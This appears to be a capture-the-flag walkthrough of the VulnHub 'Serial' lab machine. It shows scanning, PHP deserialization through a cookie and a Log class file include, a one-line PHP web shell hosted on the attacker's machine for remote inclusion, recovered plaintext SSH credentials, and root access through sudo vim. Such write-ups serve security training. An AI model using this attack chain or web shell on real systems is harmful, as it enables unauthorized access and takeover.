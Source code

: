 Serial

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery of source files php
[+] Serialization on localhost and remote host
[+] Serialization in the cookie 
[+] PHP reverse Shell
[+] Privilege Escalation abusing SUDO rights /usr/bin/vim
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.107
Host is up (0.00075s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Ubuntu 10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:f2:95:6a:f2:97:e0:ff:9f:68:14:a0:3a:d8:e2:eb (RSA)
|   256 e0:1e:cf:6f:29:4e:09:bb:df:4a:08:08:44:d4:f0:49 (ECDSA)
|_  256 38:28:63:c6:e4:bc:38:7e:6f:c2:72:b3:42:26:17:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Ubuntu))
|_http-server-header: Apache/2.4.38 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:8E:04:D1 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# dirb http://192.168.56.107

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Oct 25 06:43:58 2019
URL_BASE: http://192.168.56.107/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.107/ ----
==> DIRECTORY: http://192.168.56.107/backup/                                                                                                                   
+ http://192.168.56.107/index.php (CODE:200|SIZE:52)                                                                                                           
+ http://192.168.56.107/server-status (CODE:403|SIZE:302)                                                                                                      
                                                                                                                                                               
---- Entering directory: http://192.168.56.107/backup/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.107/

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.107
Hello sk4This is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Looking at the cookies sent to the server:



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# echo 'Tzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjM6InNrNCI7czo5OiIAVXNlcgB3ZWwiO086NzoiV2VsY29tZSI6MDp7fX0%3D' | base64 -d
O:4:"User":2:{s:10:"Username";s:3:"sk4";s:9:"Userwel";O:7:"Welcome":0:{}}base64: invalid input

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Downloading the backup.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# wget http://192.168.56.107/backup/bak.zip
--2019-10-25 06:45:30--  http://192.168.56.107/backup/bak.zip
Connecting to 192.168.56.107:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1009 [application/zip]
Saving to: ‘bak.zip’

bak.zip                                 100%[===============================================================================>]    1009  --.-KB/s    in 0s      

2019-10-25 06:45:30 (34.7 MB/s) - ‘bak.zip’ saved [1009/1009]

root@setrus:~# unzip bak.zip 
Archive:  bak.zip
  inflating: index.php               
  inflating: log.class.php           
  inflating: user.class.php 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After reading the code from the php files the final fiels are:

user.class.php


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat user.class.php 
<?php
  include("log.class.php");

  class Welcome {
    public function handler($val) {
      echo "Hello " . $val;
    }
  }

  class User {
    private $name;
    private $wel;

    function __construct($name) {
      $this->name = $name;
      $this->wel = new Log();
    }

    function __destruct() {
      //echo "bye\n";
      $this->wel->handler($this->name);
    }
  }
echo base64_encode(serialize(new User('setrus')));
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# cat log.class.php 
<?php
  class Log {
    private $type_log="/etc/passwd";

    function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing serialization

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# php user.class.php
LOG: setrusTzo0OiJVc2VyIjoyOntzOjEwOiIAVXNlcgBuYW1lIjtzOjY6InNldHJ1cyI7czo5OiIAVXNlcgB3ZWwiO086MzoiTG9nIjoxOntzOjEzOiIATG9nAHR5cGVfbG9nIjtzOjExOiIvZXRjL3Bhc3N3ZCI7fX0=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Testing the serialization on the server:


Modifying the log file to include something from kali .


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# service apache2 start
root@setrus:~# ls -al /var/www/html/cmd_shell.php 
-rw-r--r-- 1 root root 31 Oct 25 07:02 /var/www/html/cmd_shell.php
root@setrus:~# cat /var/www/html/cmd_shell.php
<?php system($_GET["cmd"]); ?>
root@setrus:~# 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Modifying the log.class.php

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/serial# cat log.class.php 
<?php
  class Log {
   // private $type_log="/etc/passwd";
//    private $type_log="http://192.168.56.102/cmd_shell.php";
    private $type_log="/credentials.txt.bak";  
  function __costruct($hnd) {
      $this->$type_log = $hnd;
    }

    public function handler($val) {
      include($this->type_log);
      echo "LOG: " . $val;
    }
  }
?>

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We get the credentials to login to the server



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4:KywZmnPWW6tTbW5w
LOG: setrusThis is a beta test for new cookie handler

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh sk4@192.168.56.107
sk4@192.168.56.107's password: 
Welcome to Ubuntu 19.04 (GNU/Linux 5.0.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 updates can be installed immediately.
0 of these updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Tue Aug 20 11:23:45 2019 from 192.168.1.5
sk4@sk4-VM:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
sk4@sk4-VM:~$ sudo -l
Matching Defaults entries for sk4 on sk4-VM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sk4 may run the following commands on sk4-VM:
    (ALL) NOPASSWD: /usr/bin/vim
sk4@sk4-VM:~$ sudo /usr/bin/vim

root@sk4-VM:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sk4-VM:~# 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~









